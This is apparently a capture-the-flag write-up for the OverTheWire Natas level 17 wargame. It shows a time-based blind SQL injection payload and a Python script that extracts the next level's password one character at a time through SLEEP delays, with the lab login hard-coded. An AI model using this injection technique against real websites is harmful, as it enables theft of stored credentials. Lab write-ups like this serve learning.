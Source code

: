 ![image](https://github.com/user-attachments/assets/b8ab139b-a819-4240-af56-ca7bdb26ffef)

![image](https://github.com/user-attachments/assets/ce02fb76-2068-4659-9d45-d163fe3cdfb8)


This is similar to previous level. No input validation.

" OR IF(SUBSTRING(password,1,1)='a', SLEEP(5), 0) -- 

This makes the server sleep for 5 when the given condition is true. we can make a script to automate this.

****import requests
import string
import time

url = "http://natas17.natas.labs.overthewire.org/"
auth = ('natas17', 'EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC')  # 🔁 Replace with actual password

charset = string.ascii_letters + string.digits
found = ""
max_length = 32

print("[*] Extracting password for natas18...")

for i in range(1, max_length + 1):
    for ch in charset:
        payload = f'natas18" AND IF(SUBSTRING(password,{i},1)="{ch}", SLEEP(3), 0) -- '
        start = time.time()
        response = requests.post(url, auth=auth, data={'username': payload})
        elapsed = time.time() - start

        print(f"[*] Trying: {found + ch} ({elapsed:.2f}s)")

        if elapsed >= 3:
            found += ch
            print(f"[+] Match: {found}")
            break

print(f"\n✅ Password for natas18: {found}")****
